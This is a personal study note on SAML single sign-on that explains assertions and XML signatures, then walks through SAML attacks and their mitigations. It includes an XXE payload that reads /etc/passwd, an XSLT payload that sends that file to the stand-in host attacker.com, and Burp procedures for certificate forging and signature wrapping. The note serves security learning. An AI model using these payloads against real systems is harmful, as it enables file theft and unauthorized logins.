






---
{"dg-publish":true,"permalink":"/0-learn-like-a-systems-engineer/web/8c-saml/","noteIcon":"","created":"2025-04-15T14:11:19.590-04:00"}
---


While I was working on this, I came across an amazing article, which has extensive research on the topic!

I borrowed some of his content and simplified it so I could understand it better.
Resources: 
https://epi052.gitlab.io/notes-to-self/blog/2019-03-13-how-to-test-saml-a-methodology-part-two/


# **1. Introduction to SAML**

### **What is SAML?**

Secure Assertion Markup Language (**SAML**) is an **XML-based authentication and authorization protocol** used primarily for **Single Sign-On (SSO)**. It enables secure **identity federation**, allowing users to authenticate once and access multiple services.

### **Why Use SAML?**

✅ Eliminates the need for repeated logins.  
✅ Enables **secure SSO** across different platforms.  
✅ Uses **digitally signed XML assertions** for authentication and authorization.

---

## **2. SAML Components**

|**Component**|**Description**|
|---|---|
|**Identity Provider (IdP)**|Authenticates users and issues SAML assertions.|
|**Service Provider (SP)**|Relies on SAML assertions from the IdP to grant access.|
|**SAML Assertion**|XML document containing authentication and authorization data.|

---

## **3. SAML Authentication Flow**



### **Step-by-Step Example**

1. **User requests access** to `academy.htb` (SP).
2. **SP redirects user** to `sso.htb` (IdP) with a SAML request.
3. **User logs in** at `sso.htb`.
4. **IdP generates & signs a SAML assertion** containing user details.
5. **User submits assertion to SP**.
6. **SP verifies the assertion** and grants access.

---

## **4. SAML Assertion Example**

```xml
<saml:Assertion ID="_1234567890" IssueInstant="2024-03-18T12:00:00Z" Version="2.0">
    <saml:Issuer>http://sso.htb/idp/</saml:Issuer>
    <saml:Subject>
        <saml:NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress">john@htb.com</saml:NameID>
    </saml:Subject>
    <saml:AttributeStatement>
        <saml:Attribute Name="username">
            <saml:AttributeValue>john</saml:AttributeValue>
        </saml:Attribute>
        <saml:Attribute Name="role">
            <saml:AttributeValue>admin</saml:AttributeValue>
        </saml:Attribute>
    </saml:AttributeStatement>
</saml:Assertion>
```

✅ **Important Fields**:

- **saml:Issuer** → Identifies the IdP.
- **saml:Subject** → Contains the authenticated user’s identity.
- **saml:AttributeStatement** → Provides additional attributes (e.g., role, username).

---

# 4.1.  XML Signature Validation

### 4.1.1 What Is XML Signature?

XML Signature (XMLDSig) is a standard for **digitally signing XML data**. It ensures:

- **Integrity** – the data hasn’t been changed.    
- **Authenticity** – the data comes from a trusted source.
    

---

### 4.1.2 Structure of an XML Signature

```xml
<ds:Signature>
  <ds:SignedInfo>
    <ds:CanonicalizationMethod/>
    <ds:SignatureMethod/>
    <ds:Reference URI="#target-id">
      <ds:Transforms/>
      <ds:DigestMethod/>
      <ds:DigestValue>...</ds:DigestValue>
    </ds:Reference>
  </ds:SignedInfo>
  <ds:SignatureValue>...</ds:SignatureValue>
  <ds:KeyInfo>...</ds:KeyInfo>
</ds:Signature>
```

### Key Elements

|Element|Description|
|---|---|
|`SignedInfo`|What is signed and how.|
|`Reference`|Which part of the XML is signed (by ID).|
|`DigestValue`|The hash of the referenced XML content.|
|`SignatureValue`|The digital signature over the `SignedInfo`.|
|`KeyInfo`|Information about the key used (e.g., public key).|

---

### 4.1.3 Signature Validation Flow


**Canonicalization** is the process of converting XML into a _standardized format_ so that insignificant differences (like whitespace, attribute order, or quote styles) do not affect signature validation.

---

### 4.1.4 Example in SAML

```xml
<ds:Reference URI="#_assertion123">...</ds:Reference>

<saml:Assertion ID="_assertion123">...</saml:Assertion>
```

- The signature references the `Assertion` element with ID `_assertion123`.
    
- The verifier locates it, canonicalizes it, hashes it, and compares it to the `DigestValue`.
    
- If it matches and the `SignatureValue` is valid with the public key → ✅
    

---


# **5. SAML Attacks & Exploits**

## **5.1 Signature Exclusion Attack**

### **Overview**

- Some SPs **do not enforce signature validation** when a signature is missing.
- **Attack Goal**: Modify SAML assertions without triggering validation errors.

### **Steps to Exploit**

1. **Obtain a valid SAML Response** (capture via Burp Suite).
2. **Modify user attributes** (e.g., change `role=user` to `role=admin`).
3. **Remove the `<ds:Signature>` element**.
4. **Encode & submit** the manipulated SAML Response.

### **Exploitation Flow**



✅ **Mitigation**:

- Enforce strict **signature validation**.
- Reject **unsigned assertions**.

---

## **5.2 XML Signature Wrapping Attack** - XSW

### **Overview**

- Exploits **incorrect parsing of signed assertions**.
- **Attack Goal**: Inject a new **unsigned assertion** while keeping the signed one intact.

**Signature Wrapping** is a type of attack against **SAML-based systems**. It takes advantage of a gap between two parts of how the system works:

1. **Signature verification logic** – checks if the SAML message was signed and hasn’t been tampered with.
    
2. **Authentication data processing** – decides which user info to trust and use.
    

In this attack, the hacker adds extra XML tags to the SAML message. These new tags don’t break the digital signature, so the system thinks everything is okay. But because of how the system reads the XML, it might end up trusting the attacker’s **fake (unsigned) user info** instead of the **real (signed) one** — which can let the attacker log in as someone else.


| Scenario                                              | Signed?                    | Vulnerability                                       |
| ----------------------------------------------------- | -------------------------- | --------------------------------------------------- |
| **Signature in Response** referencing Response `ID`   | ✅ Fully signed             | ✅ Lower XSW risk                                    |
| **Signature in Assertion** referencing Assertion `ID` | ✅ Only Assertion is signed | ⚠️ Higher XSW risk if the parser isn't strict       |
| **Reference URI does not match used element**         | ❌ Not properly signed      | ❌ High risk – Signature Wrapping likely exploitable |
#### Example 1: Signature on the Response (Safe)

```xml
<samlp:Response ID="_res123">
  <ds:Signature>
    <ds:Reference URI="#_res123"/>
  </ds:Signature>
  ...
</samlp:Response>
```

- ✅ The entire Response is protected    
- ✅ Any tampering breaks the signature    
- ✅ Lower risk of XSW
    

---

#### Example 2: Signature on the Assertion (Common but Risky)

```xml
<samlp:Response ID="_res456">
  <saml:Assertion ID="_assert789">
    <ds:Signature>
      <ds:Reference URI="#_assert789"/>
    </ds:Signature>
    ...
  </saml:Assertion>
</samlp:Response>
```

- ✅ Only the Assertion is signed    
- ⚠️ Attacker can move the signed Assertion and insert a fake one    
- ⚠️ Vulnerable if SP uses tree-based parsing
    

---

####  Example 3: Signature references a different ID than what the app uses

```xml
<ds:Reference URI="#legit123"/>
...
<saml:Assertion ID="malicious456">...</saml:Assertion>
```

- ❌ Signature validates the wrong (moved) element    
- ❌ App parses the malicious element    
- ❌ Classic XSW attack
    

### **Steps to Exploit**

1. **Capture SAML Response**.
2. **Inject an unsigned assertion** before the signed one.
3. **Modify the username & role** inside the new assertion.
4. **Submit manipulated SAML Response**.

### **Exploitation Flow**



✅ **Mitigation**:

- Only **process signed assertions**.
- Enforce **strict assertion validation**.

---

## **5.3 XXE (XML External Entity) Injection**

### **Overview**

- If **XML parsing is not hardened**, attackers can extract **local files** or perform **out-of-band (OOB) attacks**.
- **Attack Goal**: Read sensitive files from the SP server.

### **Payload**

```xml
<!DOCTYPE foo [ 
  <!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
<samlp:Response>
  <saml:AttributeStatement>
    <saml:Attribute Name="role">
      <saml:AttributeValue>&xxe;</saml:AttributeValue>
    </saml:Attribute>
  </saml:AttributeStatement>
</samlp:Response>
```

✅ **Mitigation**:

- Disable **external entity parsing**.
- Use **secure XML libraries**.

---
## 5.4 Extensible Stylesheet Language Transformation (XSLT) via SAML


**Extensible Stylesheet Language Transformation (XSLT)** is a language used to turn **XML** documents into other formats like **HTML, JSON, or PDF**.

In this attack, XSLT is abused inside a **SAML Response** to try to read files or send data to an attacker — even **without a valid signature**.

> The **XSLT Transform runs _before_ the signature is checked**, so even if the signature is **fake or self-signed**, the attack can still happen.

---

### **How the Attack Works**

1. Intercept a valid **SAML Response** (doesn’t have to be signed by a trusted authority).
    
2. Replace or inject your **XSLT payload** into the ==`<ds:Transform>`== part.
    
3. Use a **Burp Collaborator URL** to catch the outbound call and confirm exploitation.
    

---

### **Example Payload**

```xml
<ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
  ...
  <ds:Transforms>
    <ds:Transform>
      <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
        <xsl:template match="doc">
          <xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
          <xsl:variable name="escaped" select="encode-for-uri($file)"/>
          <xsl:variable name="attackerUrl" select="'http://attacker.com/'"/>
          <xsl:variable name="exploitUrl" select="concat($attackerUrl, $escaped)"/>
          <xsl:value-of select="unparsed-text($exploitUrl)"/>
        </xsl:template>
      </xsl:stylesheet>
    </ds:Transform>
  </ds:Transforms>
  ...
</ds:Signature>
```


---

## **5.5 Open Redirects & Token Hijacking**

### **Overview**

- Weak **redirect_uri validation** can allow attackers to steal tokens.
- **Attack Goal**: Trick users into granting **OAuth/SAML access** to malicious clients.

### **Steps to Exploit**

1. **Craft a malicious `redirect_uri`** pointing to the attacker’s server.
2. **Send phishing link** to the victim.
3. **Victim logs in** → Token gets sent to the attacker.

✅ **Mitigation**:

- Use **exact-match whitelisting** for redirect URIs.

---
## 5.6 Certificate Faking via SAML

### 5.6.1 Key Concept

Insecure SAML implementations may accept **self-signed certificates**. By creating and injecting a **fake cert**, you can modify the contents of a **SAML Assertion** and re-sign it in a way the application will still trust.

### 5.6.2 Steps to Fake a Certificate in Burp Suite using SAML Raider

```markdown
### 🛑 Step 1: Intercept the SAML Response
- Use **Burp Proxy** to capture a SAML Response.
- Confirm the response contains a `<ds:Signature>` block.

---

### 🧾 Step 2: Send the Certificate to SAML Raider
- In SAML Raider, click `Send Certificate to SAML Raider Certs`.

---

### 💡 Step 3: Create a Self-Signed Cert
- Go to the **Certificates** tab.
- Highlight the imported cert.
- Click `Save and Self-Sign` to create a self-signed clone.

---

### 🧪 Step 4: Modify and Re-sign the SAML Response
- Go back to the intercepted request in Burp Proxy.
- Select your **self-signed cert** from the `XML Signature` dropdown.
- Click `Remove Signatures` to strip the original one.
- Click `(Re-)Sign Message` or `(Re-)Sign Assertion`.

---

### 🚀 Step 5: Forward the Modified Response
- Forward the updated SAML Response.
- If accepted, the Service Provider trusts your forged cert.
```

### 5.6.4 Mermaid Diagram



---
## 5.7 Token Recipient Confusion (SAML-TRC)

### 5.7.1 Key Concept

**Token Recipient Confusion** occurs when a **Service Provider (SP)** fails to properly validate the `Recipient` attribute inside a **SAML Response**.

- The `Recipient` attribute lives inside the ==`<SubjectConfirmationData>`== element.
    
- It tells the SP **which service** the assertion is meant for.
    
- If an SP accepts a token **not intended for it**, it's vulnerable.
    

> ✅ If **SP-Target** accepts a SAML assertion meant for **SP-Legit**, that’s a Recipient Confusion vulnerability.

---

### 5.7.2 Prerequisites

- You have **legit access** to **SP-Legit**.
    
- **SP-Legit** and **SP-Target** both use the **same Identity Provider (IdP)**.
    

---

### 5.7.3 Attack Steps

```markdown
1. Authenticate normally to **SP-Legit** using the shared **IdP**.
2. **Intercept** the SAML Response from IdP → SP-Legit (using Burp, etc).
3. **Forward** the intercepted SAML Response to **SP-Target** instead.
4. If **SP-Target** doesn’t check the `Recipient` field correctly, it will accept the assertion.
```

---

### 5.7.4 Outcome

If the attack is successful:

- You’re logged into **SP-Target** with your **SP-Legit** account.
    
- You now have **unauthorized access** to a system where you don’t actually have an account.
    

---

### 5.7.5 Mermaid Diagram



---

# **6. SAML Security Best Practices**

|**Security Control**|**Implementation**|
|---|---|
|**Enforce Signature Validation**|Reject unsigned assertions.|
|**Restrict Redirect URIs**|Use exact whitelisting.|
|**Disable XML External Entities (XXE)**|Harden XML parsers.|
|**Validate Assertion Expiry**|Reject expired SAML assertions.|
|**Use Secure SAML Libraries**|Avoid custom SAML implementations.|

---

# **7. Tools for SAML Testing**

|**Tool**|**Description**|
|---|---|
|**[SAML Raider](https://portswigger.net/bappstore/c61cfa893bb14db4b01775554f7b802e)**|Burp Suite extension for SAML attacks.|
|**[SAML Decoder](https://www.samltool.com/decode.php)**|Decodes SAML responses for analysis.|
|**[SAML Tracer](https://addons.mozilla.org/en-US/firefox/addon/saml-tracer/)**|Firefox extension for capturing SAML requests.|

---

# **8. Summary Table**

| **Attack Type**         | **Description**                                     | **Mitigation**                          |     |
| ----------------------- | --------------------------------------------------- | --------------------------------------- | --- |
| **Signature Exclusion** | Remove signature to bypass verification.            | Enforce signature validation.           |     |
| **Signature Wrapping**  | Inject an unsigned assertion before the signed one. | Only process signed assertions.         |     |
| **XXE Injection**       | Extract local files via XML entities.               | Disable external entity processing.     |     |
| **Open Redirect**       | Redirect tokens to attacker-controlled URLs.        | Use strict `redirect_uri` whitelisting. |     |

---

